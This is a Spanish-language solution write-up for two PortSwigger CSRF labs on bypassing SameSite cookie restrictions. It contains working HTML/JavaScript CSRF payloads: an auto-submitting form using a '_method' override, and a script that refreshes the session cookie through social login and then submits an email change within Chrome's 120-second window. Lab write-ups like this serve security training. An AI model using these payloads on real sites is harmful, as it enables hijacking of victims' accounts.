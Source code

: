 ## Solución laboratorio **Bypassing SameSite Lax restrictions using GET requests**

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override).

```jsx
<html>
    <body>
            <form action="https://URL-VULNERABLE/my-account/change-email" method="GET" >
            <input type="hidden" name="_method" value="POST">
            <input type="hidden" name="email" value="antu97@test.com" />
        <script>
      document.forms[0].submit();
    </script>
    </body>
</html>
```

## Solución al laboratorio con refresco de cookie

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh).

Si un sitio web no incluye un atributo SameSite al configurar una cookie, Chrome aplica automáticamente restricciones Lax de forma predeterminada. Sin embargo, para evitar romper los mecanismos de inicio de sesión único (SSO), en realidad no aplica estas restricciones durante los primeros 120 segundos en las solicitudes POST de nivel superior. Como resultado, hay una ventana de dos minutos en la que los usuarios pueden ser susceptibles a ataques entre sitios.

Para eludir la restricción de la cookie con samesite lax nos aprovechamos de que los primeros 120 segundos se permiten peticiones POST.

Para evitar el bloqueo por defecto del navegador del popup al ejecutar windows.open utilizamos la funcion window.onclick.

A los 5 segundos de refrescar la sesión con window.open desde la url indicada se lanzara la petición post con el cambio de usuario.

```jsx
<form method="POST" action="https://URL-VULNERABLE/my-account/change-email">
    <input type="hidden" name="email" value="antu97@test.com">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://URL-VULNERABLE/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
